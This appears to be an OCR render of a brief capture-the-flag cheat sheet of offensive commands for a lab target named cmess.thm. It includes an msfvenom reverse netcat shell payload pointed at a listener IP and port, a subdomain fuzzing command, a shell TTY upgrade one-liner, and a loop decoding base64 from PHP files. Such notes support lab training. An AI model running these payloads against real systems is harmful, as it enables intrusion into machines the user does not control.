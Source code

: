 # Important Commands

| Command | Description |
| :--- | :--- |
| Inline Paylod Linux | msfvenom -p cmd/unix/reverse\_netcat lhost=10.11.28.212 lport=8888 R |
| Subdomains from wordlist | fuzz -c -f sub-fighter -w **list.txt** -H "Host: FUZZ.**cmess.thm**" --**hw 290 -t 100** -u '[**http://cmess.thm**](http://cmess.thm)' |
| Full TTY | python3 -c 'import pty; pty.spawn\("/bin/bash"\)' |
| Find files and then base64 decode the content | for i in $\(find . -name "\*.php" \); do tail -1 $i \| base64 -d; echo; done; |



